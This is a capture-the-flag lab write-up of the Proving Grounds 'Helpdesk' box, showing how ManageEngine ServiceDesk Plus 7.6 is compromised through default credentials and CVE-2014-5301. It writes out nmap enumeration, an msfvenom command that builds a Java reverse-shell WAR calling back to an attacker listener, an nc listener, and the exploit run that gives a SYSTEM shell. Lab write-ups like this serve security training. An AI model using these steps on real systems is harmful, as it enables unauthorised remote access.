





# Helpdesk — Proving Grounds (write-up)

**Difficulty:** Easy
**Box:** Helpdesk (Proving Grounds)
**Author:** dkrxhn
**Date:** 2025-05-26

---

## TL;DR

### ManageEngine ServiceDesk Plus 7.6 with default creds `administrator:administrator`. Exploited CVE-2014-5301 to upload a WAR reverse shell for SYSTEM.
---
## Target info

- Host: `192.168.212.43`
- Services discovered: `135/tcp`, `139/tcp`, `445/tcp`, `3389/tcp`, `8080/tcp`
---
## Enumeration

```bash
nmap -p135,139,445,3389,8080 192.168.212.43 -sCV -vvv -Pn
```



SMB message signing disabled.



ManageEngine ServiceDesk Plus 7.6. Checked searchsploit:



---
## Exploitation

Default creds `administrator:administrator` worked:





Used CVE-2014-5301 exploit to upload a WAR shell:

```bash
msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.205 LPORT=4444 -f war > shell.war
```

```bash
nc -lvnp 4444
```

```bash
python3 cve.py 192.168.212.43 8080 administrator administrator shell.war
```

Got root/SYSTEM shell immediately.

---
## Lessons & takeaways

- Always try default credentials on management interfaces
- ManageEngine ServiceDesk Plus is a frequent target -- check searchsploit immediately
- CVE-2014-5301 gives direct SYSTEM via WAR file upload
---
